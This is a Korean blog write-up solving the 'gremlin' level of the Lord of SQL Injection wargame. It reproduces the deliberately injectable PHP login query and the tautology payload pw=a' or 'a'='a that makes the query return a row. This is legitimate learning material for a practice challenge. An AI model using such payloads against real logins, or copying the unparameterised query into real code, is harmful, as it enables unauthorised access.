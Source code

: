 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - gremlin 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


예전에 `LoS` 문제를 풀어본 적 있었다.  

이 때는 [http://los.eagle-jump.org](http://los.eagle-jump.org)에서 풀었었는데, 원작자가 새로운 문제를 추가 해 서비스를 시작했다 해 다시 풀어보게 되었다.  

사이트 주소는 [http://los.rubiya.kr](http://los.rubiya.kr) 이다.  

<!--more-->

`LoS`는 따로 플래그를 입력하는 방식이 아니라 코드 안의 `solve()` 함수가 동작하도록 하면 문제가 풀린다.  

그리고 친절하게 내가 입력 한 값이 어떻게 쿼리에 들어가는지도 보여준다.  

첫 번째 문제는 `gremlin`이다.  

코드는 다음과 같다.  

```php
--------------------------------------------------------------------------
query : select id from prob_gremlin where id='' and pw=''
--------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

문제를 풀기 위해서는 `if($result['id']) solve("gremlin");`에서 조건문을 통과해야 한다.  

즉, 쿼리를 실행했을 때 추출되는 id 값이 있으면 된다.  

실행되는 쿼리는 다음과 같다.  

```php
select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
```

이 때, `id`와 `pw`의 값은 `GET` 방식으로 받아온다.  

`id`가 뭐든 상관 없기때문에 그냥 쿼리 결과가 참이 될 수 있는 값을 입력하면 될 것 같다.  

쿼리문을 완성하기 위해 아래와 같이 입력했다.  

```
?id=admin&pw=a' or 'a'='a
```

그 결과 아래와 같이 문제를 풀 수 있었다.  

```php
-----------------------------------------------------------------------------------------------------
query : select id from prob_gremlin where id='admin' and pw='a' or 'a' = 'a'
-----------------------------------------------------------------------------------------------------

GREMLIN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

`Gremlin Clear!!`
